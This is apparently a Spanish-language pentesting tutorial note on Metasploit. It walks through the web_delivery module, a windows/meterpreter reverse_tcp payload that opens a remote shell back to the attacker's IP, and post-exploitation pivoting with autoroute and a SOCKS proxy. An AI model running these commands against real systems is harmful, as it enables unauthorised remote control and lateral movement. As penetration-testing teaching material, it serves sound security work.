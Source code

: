 ```yaml
---
Herramienta: 💣 Metasploit
Comando: msfconsole
Categoría: Explotación y post-explotación
SO: Multiplataforma
tags:
  - explotación
  - post-explotación
  - c2
  - pentesting
---
```


## Descripción

**Metasploit** es un framework de pruebas de penetración ampliamente utilizado que permite descubrir, explotar y manejar vulnerabilidades en sistemas informáticos. Es una herramienta modular que incluye exploits, payloads y herramientas de post-explotación para escenarios reales y pruebas de laboratorio.

## Características clave

- **Framework modular**: Incluye miles de exploits, payloads y módulos auxiliares.
- **Post-explotación**: Herramientas avanzadas para mantener acceso y extraer información.
- **Pruebas de seguridad**: Ideal para pruebas de penetración en redes y aplicaciones.
- **Multiplataforma**: Funciona en Windows, Linux y macOS.

## Ejemplo de uso

### Ejemplo 1

Vamos a seguir el ejemplo 1 de Powershell empire

Ejecuta la consola de Metasploit:

```bash
msfconsole

#Para buscar un determinado módulo podemos usar el comando search

search web_delivery

#En este caso vamos a utilizar el modulo web_delivery. Para mostras las opciones podemos utilizar el comando show options

show options
set target 2

#Hemos puesto el target 2 ya que vamos a atacar a un powershell. También vamos a tener que cambiar la ip para que apunte la conexión hacia nuestro sistema

Set LHOST ip
Set SRVHOST ip

#Ambas ips han de ser la de nuestro ordenador como pone en las instrucciones del modulo.

set payload windows/meterpreter/reverse_tcp

#Este cambio de payload (generalmente es automatico) nos permite especificar la sesión.

exploit

#Esto nos dará el comando a ejecutar en el host victima para conectarnos

sessions

#Con este comando vemos las sesiones actuales

sessions x

#Con este comando nos conectamos a una sesion
```

**Después del ejemplo 1 de powershell empire**:

Parece que tras la ejecución del payload generado por metasploit tenemos una sesión de meterpreter, a partir de aquí hay varios comandos que podemos utilizar.

```cmd
sysinfo

#nos proporciona información del sistema

getuid

#nos porporciona información del usuario actual, con ctrl + z podemos dejar la sesion en background y vamos a pobrar otro modulo

search autoroute
set SESSION 1
run

#Esto nos permite crear una ruta con el host victima (en la sesión que tenemos creada).

use auxiliary/server/socks_proxy
set SRVHOST ip #nuestra
run

#Este modulo nos permite vincular nuestro navegador al suyo y hay que cambiar el proxy en el navegador y poner nuestra ip y el puerto vinculado al del modulo y ya simplemente con poner el dominio o ip victima deberíamos ver el puerto 8080 de ese servidor
```

